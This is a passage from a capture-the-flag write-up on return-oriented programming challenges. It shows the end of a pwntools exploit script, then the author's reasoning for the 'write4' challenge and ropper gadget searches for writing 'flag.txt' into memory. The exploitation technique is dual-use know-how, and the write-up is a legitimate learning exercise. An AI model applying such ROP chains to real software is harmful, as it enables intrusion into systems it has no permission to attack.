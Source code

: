 ```python
io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))

sleep(1)

```

## Challenge 4


Once more into the breach with these rop exploits friends. We have a pretty simular situation to the 2nd challenge.

> **Important!**  
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

All we need to do is call the print_file function with the first argument being a pointer to a string containing "flag.txt". The one problem is a complete lack of that string in the binary. I used `strings` and `rabin2` to attempt to find them and found nothing.

Now considering this challenge is called write4 and it has a whole section on how to write to memory in the challenge description, I deduced I needed to write that string into memory. The challenge sudgests looking for something in the form `mov [reg], reg` so that's what I did.

```

pwndbg> ropper -- --search "mov [???],???
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???],???

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 

```
and look at that. I found 2 gadgets that might work. Now, I'd rather work with moving as much data at once which means using the r15 (8 bytes) rather then the edi (4 bytes), so that's the one I looked for first. 

```
pwndbg> ropper -- --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400690: pop r14; pop r15; ret; 
```
